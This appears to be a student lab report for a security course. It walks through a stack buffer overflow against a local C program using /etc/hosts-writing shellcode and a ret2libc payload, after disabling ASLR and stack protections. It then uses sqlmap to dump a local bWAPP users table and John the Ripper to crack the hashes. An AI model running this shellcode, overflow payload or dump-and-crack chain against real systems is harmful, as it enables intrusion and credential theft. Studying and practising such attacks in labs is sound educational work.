







# Lab #1, 22110052, Dang Huu Loc, INSE330380E_24_1_02FIE

# Task 1: Software buffer overflow attack

**Question 1**:

-   Compile asm program and C program to executable code.
-   Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.
    You are free to choose Code Injection or Environment Variable approach to do.
-   Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
    **Answer 1**: Must conform to below structure:

## 1. Preprocessing the given shellcode

```shell
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

The above code is saved as `sh.asm`.

### 1.1. Compile the shellcode

First, we have to compile the shellcode given by the problem so that we can retrieve a hextring and inject it into the program.

```bash
nasm -g -f elf sh.asm
```

A new file called `sh.o` is created.



### 1.2. Link the object file to created executable

Then, link the newly created file to create executable file:

```bash
ld -m elf_i386 -s -o sh sh.o
```

Result:



### 1.3. Generated hex string from shellcode

Since we will conduct the buffer overflow attack, we have to generated hex string from shellcode, so that we can inject through input.

To generated the hexstring and print it onto terminal:

```bash
for i in $(objdump -d sh |grep "^ "|cut -f2); do echo -n '\x'$i; done; echo
```



For later use, I will copy the output and paste into `hex.txt`

## 2. Analyze the vulnerable code

```C
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

Saved as `vuln.c`.

The above code is vulnerable to buffer overflow attack because:

1.  The `buffer` is a character array with a size of 16 bytes.
2.  The strcpy function is a vulnerable function. It copies data from `argv[1]` directly into `buffer` without verifying the 16-bytes limit.

We can attack the program by providing an input that exceed the 16-bytes limit and overwrite the return address

We have the stack frame of the program:



We can easily see that from esp to eip, there are 24 bytes, with 16 bytes of `buf`, 4 bytes of `ebp`, and 4 bytes of `eip`.

The hexstring we generated above contains 77 bytes (by using `Ctrl + F` to find the number of occurrences of the letter `x`):



Since the hexstring is too large for the buffer, we can't overwrite the return address directly, so I will use `system()` to execute it.

By replacing the return address with `system()`'s address, and replace `argc` with the address of `exit()`, I will be able to run the shellcode. And, argv will be the arguments for `system()`.

To get the address of the shellcode, I will save it to a environment variable named VULN_ENV:

```
export VULN_ENV=/home/hloc/Seclabs/Lab#1
```

## 3. Compiling the vulnerable program

### 3.1. Preparing the environment

1. Turn off OS's address space layout randomization (ASLR)

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

2. Switch to zsh to bypass bash protections

```bash
sudo ln -sf /bin/zsh /bin/sh
```

### 3.2. Compile the vulnerable program

To compile we use the following command, with `-fno-stack-protector` to disables stack canaries (which protects against buffer overflows) and `-z execstack` to make stack executable:

```bash
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=3 -z execstack
```

### 3.2. Run the vulnerable program

Using gdb:

```bash
gdb vuln.out -q
```

Set a breakpoint at `main()` and run:

```
break main
run
```

Then to find the address of `system()`, `exit()`, and `sh` (or VULN_ENV):

```bash
p system

p exit
```

and get the address of shellcode:

```
p (char*)getenv("VULN_ENV")
```




From the output, the address of `system()` is `0xf7dc9170`, the address of `exit()` is `0xf7dbb460`, and the address of VULN_ENV is `0xffffd213`

### 3.3. Craft the input

First, we have to fill the 16 bytes of `buffer` and 4 bytes of `ebp`, then, we overwrite the address of `eip` and replace it with the address of `system()`

The attack payload:

```
run $(python -c "print('a'*20 + '\x70\x91\xdc\xf7' + '\x60\xb4\xdb\xf7' + '\x13\xd2\xff\xff')")
```

# Task 2: Attack on the database of Vulnerable App from SQLi lab

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

First, we install and start sqlmap

```
sudo pip3 install sqlmap
```


Then, to check for vulnerability, we check the bWapp to see what will happend if we select data:


We can see that when we select a movie, the URL changed:


### Get all information about databases:

First, we need to get the cookie for login credential:


Then, we craft the sqlmap command:

```
sqlmap "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=vgkv5rm51fhe6e2qo9qvhc8251; security_level=0" --dbs
```

-   -u: The target URL.
-   --cookie: Your DVWA session cookie (replace PHPSESSID=your-session-id with your actual session ID).
-   --dbs: Tells sqlmap to retrieve the available databases.


After a few minutes, the result is


**Conclusion**: There are 4 available databases: bWAPP, information_schema, mysql, performance_schema

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

To get tables in the database named `bWAPP`, we use

```
sqlmap "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=vgkv5rm51fhe6e2qo9qvhc8251; security_level=0" -D bWAPP --tables
```

-   -D dvwa: Specifies the dvwa database.
-   --tables: Lists all tables in the specified database.


There are 5 tables: blog, heroes, movies, users, visitors

And to get user information, we will exploit the `users` talbes:

```
sqlmap "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=vgkv5rm51fhe6e2qo9qvhc8251; security_level=0" -D bWAPP -T users --dump
```

-   -T users: Specifies the users table.
-   --dump: Dumps the entire content of the table.


As we can see, there are 2 users, and their password is hashed (but sqlmap have decode it anyway - "bug")

**Conclusion**: there are 5 tables: blog, heroes, movies, users, visitors; and 2 users in the users table

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

First, install John the Ripper:

```
sudo apt-get install john
```

Then we will be able to use john to reveal the password:

1. Write the hashes into hash.txt:

```
nano ./hash.txt
```


2. Use John:

```
ohn --format=raw-sha1 --wordlist=/home/kali/Downloads/rockyou.txt /hash.txt
```

The result is:


**Conclusion**: The password for both users is "bug"
